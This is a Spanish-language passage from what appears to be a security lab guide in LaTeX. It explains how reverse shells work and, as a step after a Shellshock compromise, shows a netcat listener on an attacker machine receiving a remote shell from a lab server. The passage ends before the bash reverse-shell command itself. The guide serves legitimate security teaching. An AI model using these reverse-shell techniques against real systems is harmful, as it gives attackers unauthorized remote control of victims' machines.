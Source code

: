 

La idea principal de una shell reversa es poder redirigir los dispositivos de standard input, output y error hacia una conexión de red, pudiendo así enviar y recibir información a través de este canal por la shell. En la otra punta de la conexión estará la máquina del atacante corriendo un programa mostrando lo que venga de la shell del otro lado de la conexión, al mismo tiempo este programa enviará lo que el atacante escriba usando la misma conexión de red.

Uno de los programas más usados por los atacantes para este propósito es \texttt{netcat}, si se corre con el parámetro \texttt{"-l"}, este se pondrá a la escucha de un puerto TCP en un puerto específico, convirtiéndose en un servidor TCP. Este servidor bastante simple hecho con netcat, mostrará lo que sea enviado por parte de un cliente y enviará lo que el usuario corriendo el servidor escriba.
En el siguiente experimento usaremos  \texttt{netcat} para ponernos a la escucha en el puerto TCP \texttt{9090} simulando ser un servidor TCP.

\begin{lstlisting}
Attacker(10.0.2.6):$ nc -nv -l 9090  (*@\reflectbox{\ding{217}} \textbf{Waiting for reverse shell}@*)
Listening on 0.0.0.0 9090
Connection received on 10.0.2.5 39452
Server(10.0.2.5):$     (*@\reflectbox{\ding{217}} \textbf{Reverse shell from 10.0.2.5.}@*)
Server(10.0.2.5):$ ifconfig
ifconfig
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet (*@\textbf{10.0.2.5}@*)  netmask 255.255.255.0  broadcast 10.0.2.255
        ...
\end{lstlisting}

El comando \texttt{nc} mostrado arriba, se pondrá a la escucha en el puerto TCP 9090 y se bloqueará en espera de nuevas conexiones.
A continuación con el fin de emular lo que haría un atacante después de comprometer el servidor por medio del ataque de Shellshock, debemos de correr el programa bash mostrado más abajo en el servidor cuya dirección IP es (\texttt{10.0.2.5}).
Este programa lanzará una conexión TCP en el puerto 9090 hacia la máquina del atacante, otorgándole así una shell reversa. Podremos observar el prompt shell que nos indica que la shell está corriendo en el servidor; podemos usar el comando \texttt{ifconfig} para verificar que la dirección IP es la correcta (\texttt{10.0.2.5}) y que es la que pertenece a la máquina que hostea el servidor. A continuación se muestra la sentencia de bash que debe ser ejecutada:

